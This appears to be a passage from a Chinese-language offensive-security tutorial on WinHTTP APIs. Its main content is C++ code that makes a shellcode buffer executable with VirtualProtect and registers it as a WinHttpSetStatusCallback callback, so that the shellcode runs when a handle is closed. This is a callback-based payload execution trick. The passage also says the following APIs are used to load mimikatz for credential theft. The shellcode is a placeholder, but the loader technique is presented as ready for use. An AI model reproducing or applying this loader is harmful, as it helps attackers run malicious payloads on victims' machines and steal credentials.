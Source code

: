 
想要获取其他http头信息，把第二个WinHttpQueryHeaders的第三个参数'cookie'改成对应的即可，例如获取Referer  
`bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CUSTOM, "Referer",
lpOutBuffer, &dwSize, WINHTTP_NO_HEADER_INDEX);`

  1. WinHttpSetStatusCallback  
可以设置一个回调函数，我们使用它来加载我们的shellcode,当失败时返回WINHTTP_INVALID_STATUS_CALLBACK  
https://docs.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-
winhttpsetstatuscallback

    
    
    WINHTTP_STATUS_CALLBACK WinHttpSetStatusCallback(  
      [in] HINTERNET       hInternet,//要设置回调的句柄，这里我们使用WinHttpOpen返回的句柄  
      [in] WINHTTP_STATUS_CALLBACK lpfnInternetCallback,//指向WINHTTP_STATUS_CALLBACK类型的回调函数的指针  
      [in] DWORD           dwNotificationFlags,//这里我们填WINHTTP_CALLBACK_FLAG_HANDLES，它的意思就是当我们调用WinHttpCloseHandle关闭句柄的时候，会调用回调函数，从而执行我们的shellcode  
      [in] DWORD_PTR       dwReserved//此值必须为NULL  
    );  
    

例如：

    
    
    char shellcode[]="xxxxxx";  
    DWORD ppp;  
    VirtualProtect(&shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &ppp);  
      
    HINTERNET hopen = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);  
      
    WINHTTP_STATUS_CALLBACK callback = WinHttpSetStatusCallback(hopen, (WINHTTP_STATUS_CALLBACK)&shellcode, WINHTTP_CALLBACK_FLAG_HANDLES, NULL);  
      
    if (callback == WINHTTP_INVALID_STATUS_CALLBACK) {  
        cout << "[*] WinHttpSetStatusCallback失败" << endl;  
        return -1;  
    }；  
      
    cout << "[*] WinHttpSetStatusCallback 成功" << endl;  
    WinHttpCloseHandle(hopen);   
    //因为设置了WINHTTP_CALLBACK_FLAG_HANDLES，所以当我们调用WinHttpCloseHandle关闭句柄的时候会执行我们的shellcode  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221005121452.png)  
以下两个api是加载mimikatz的时候用的

  1. WinHttpQueryDataAvailable  
这个函数返回可用WinHttpReadData读取的数据量，函数成功返回TRUE，失败返回FALSE  
https://docs.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-
winhttpquerydataavailable

    
    
    BOOL WinHttpQueryDataAvailable(  
      [in]  HINTERNET hRequest,//WinhttpOpenRequest返回的句柄，需要在调用这个api前调用WinHttpReceiveResponse函数  
      [out] LPDWORD   lpdwNumberOfBytesAvailable//指向接收字节数的指针  
    );  
    